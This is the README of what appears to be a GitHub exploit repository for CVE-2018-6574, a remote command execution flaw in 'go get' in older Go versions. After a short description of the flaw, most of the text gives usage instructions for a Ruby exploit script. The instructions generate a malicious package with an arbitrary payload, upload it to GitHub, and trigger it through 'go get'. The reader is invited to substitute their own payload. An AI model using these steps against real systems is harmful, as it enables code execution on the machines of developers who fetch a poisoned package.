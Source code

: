 # CVE-2018-6574 | go get RCE
Go before 1.8.7, Go 1.9.x before 1.9.4, and Go 1.10 pre-releases before Go 1.10rc2 allow "go get" remote command execution during source code build, by leveraging the gcc or clang plugin feature, because `-fplugin=` and `-plugin=` arguments were not blocked.

An attack has to be approached locally. A single authentication is needed for exploitation. So it's more user or a function that uses the same approach may get exploited via typosquatting technique or another ways.

# Usage

**Exploit**
```
ruby cve-2018-6574_exploit.rb <PAYLOAD>
```

## PoC
PoC based in your case and payload.

```
-> ruby cve-CVE-2018-6574_exploit.rb "touch /tmp/owned"
[1] Upload 'go-get-rce' folder to github
[2] try: go get https://github.com/[username]/go-get-rce.git
```
- Replace `touch /tmp/owned` payload with your own.
- A directory called `go-get-rce` will be created contains a package and the malicious plugin.
- Upload `go-get-rce` directory to github or any remote host
- from the vulnerable function execute (`go get https://github.com/[username]/go-get-rce`)

# References
- http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6574
- https://github.com/golang/go/issues/23672
- https://github.com/rapid7/metasploit-framework/blob/master/modules/.......
